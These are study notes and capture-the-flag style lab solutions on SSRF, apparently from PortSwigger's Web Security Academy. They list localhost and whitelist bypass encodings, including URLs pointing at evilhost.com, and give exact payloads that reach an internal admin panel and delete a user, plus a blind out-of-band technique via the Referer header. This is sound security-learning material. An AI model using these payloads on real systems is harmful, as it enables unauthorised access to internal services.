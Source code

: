 # SSRF Attacks

### Description

* before you send an HTTP request, you can edit the parameters as you like
* that parameter would be processed by the server, so we can make the server do malicious things
* for example, a webserver would show an image from a url sent by the user via POST request. in the request, we can instead send `https://ifconfig.pro/` and the server would return its IP address

### Bypassing SSRF defenses

Sometimes blocked: `127.0.0.1`, `localhost`, `/admin`

* alternative representation: `127.0.0.1`, `2130706433`, `017700000001`, or `127.1`
* register own domain that resolves to `127.0.0.1`: use `spoofed.burpcollaborator.net`
* obfuscate using URL encoding or cAsE vARiaTion
* switch the protocols: `http:` to `https:`

Sometimes sites use whitelisting instead

* embed creds: `https://expectedhost.com:fakepassword@evilhost.com`
* URL fragment: `https://evilhost.com#expectedhost.com`
* DNS naming hierarchy: `https://expectedhost.com.evilhost.com`
* URL encode 1-2 times

### Blind SSRF

* OAST/Out-of-Band techniques
* generate unique domain names, send it to payload, and if http request/DNS lookup coming from the app, then the app is vulnerable
* Referer header -> some sites use analytics software to track where users come from and what the referrer sites are about

## Lab Solutions

#### Lab 1

Change the parameter to `stockApi=http://localhost/admin/`. Then, we'll get the admin page on the response. Notice how the href to delete user Carlos is `admin/delete?username=carlos`. Then, we just update the payload to be `stockApi=http://localhost/admin/delete?username=carlos`.

#### Lab 2

Look at the HTTP request and pass it to Intruder as `stockApi=http://192.168.0.§x§/admin:8080`. Iterate from 0-255 and wait for the one with a different response. Then update the IP on the request and the rest is the same as the previous lab. Final payload: `stockApi=http://192.168.0.99:8080/admin/delete?username=carlos`

#### Lab 3

Try different bypasses. This payload works: `stockApi=http://127.1/admiN/delete?username=carlos`

#### Lab 4

Do "check stock" and "next product". Put the GET request of next product (which supports redirection) to "check stock" POST request. Final payload: `stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`.

#### Lab 5

Need Burp Collaborator (Pro Version) :) -- Basically, replace the Referer header with a domain created by Burp Collaborator. Then the back-end server will do DNS and HTTP request to the inputted domain.
